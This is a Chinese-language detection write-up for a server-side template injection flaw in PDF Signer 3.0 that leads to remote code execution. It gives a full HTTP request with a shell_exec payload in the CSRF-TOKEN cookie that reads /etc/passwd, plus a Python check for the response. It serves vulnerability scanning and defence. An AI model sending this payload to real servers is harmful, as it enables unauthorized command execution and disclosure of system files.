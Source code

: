 # PDF Signer 3.0 SSTI远程代码执行漏洞（pdf-signer-ssti-to-rce）检测说明

## 漏洞简介

PDF Signer 3.0 存在服务端模板注入（SSTI）漏洞，攻击者可通过恶意构造的Cookie实现远程代码执行，危及服务器安全。该漏洞与不安全的CSRF实现和Cookie处理有关。

## 影响范围

- 产品：PDF Signer
- 影响版本：3.0
- CVE编号：无（社区编号 pdf-signer-ssti-to-rce）
- 危害等级：Critical

## 漏洞原理

应用对CSRF-TOKEN Cookie值未做有效过滤，攻击者可注入模板表达式（如`shell_exec`），导致服务端执行任意命令。

## 利用方式与攻击流程

1. 攻击者构造带有SSTI payload的Cookie，CSRF-TOKEN值中注入`shell_exec('cat /etc/passwd')`。
2. 服务器端未对Cookie值进行安全处理，直接渲染模板。
3. 模板引擎执行恶意表达式，触发命令执行。
4. 响应体中回显`/etc/passwd`内容，攻击者据此判断漏洞是否存在。

## 探测原理与流程

### 探测请求的构造

```http
GET / HTTP/1.1
Host: target.com
Cookie: CSRF-TOKEN=rnqvt{{shell_exec('cat /etc/passwd')}}to5gw; simcify=uv82sg0jj2oqa0kkr2virls4dl
```

- CSRF-TOKEN Cookie中注入模板表达式，尝试让服务器执行命令。

### 预期响应与交互

- 响应体需包含`root:.*:0:0:`（/etc/passwd内容特征）。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    import re
    if response.status_code == 200 and re.search(r"root:.*:0:0:", response.text):
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带SSTI payload的Cookie请求] --> B[接收HTTP响应]
    B --> C{响应体含/etc/passwd特征?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{状态码为200?}
    D -- 否 --> F
    D -- 是 --> G[判定存在SSTI漏洞]
```

## 参考链接

- 暂无公开参考链接 
